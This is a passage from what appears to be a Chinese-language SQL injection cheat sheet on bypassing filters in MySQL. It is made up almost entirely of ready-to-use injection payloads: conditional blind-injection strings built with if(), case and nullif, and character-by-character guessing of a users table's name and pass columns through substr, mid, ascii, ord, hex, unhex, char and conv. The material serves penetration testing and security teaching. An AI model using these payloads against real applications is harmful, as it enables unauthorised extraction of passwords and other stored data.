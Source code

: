 '-1#

```
select data from users where 0 = -1 # false

```

使用条件判断来进行`true、false`的选择

```
    ifnull(nullif()), case when， if()
    '-if(name='Admin',1,0)#

```

使用嵌套条件`'-if(`

```
if(name='Admin',1,0), // condition
if(substr(pass,1,1)='a',1,0) // if true
,0)# // if false    

```

0x03 函数过滤
=====

构建字符串相关函数

```
unhex char hex ascii ord substr substring mid pad left right insert
' and substr(data,1,1) = 'a'#
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and hex(substr(data,1,1)) = 61#
' and ascii(substr(data,1,1)) = 97#
' and ord(substr(data,1,1)) = 97#

```

使用conv来进行进制的转换

```
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'

```

使用函数来猜解数据

```
' and substr(data,1,1) = 'a'#
' and substring(data,1,1) = 'a'#
' and mid(data,1,1) = 'a'#

```

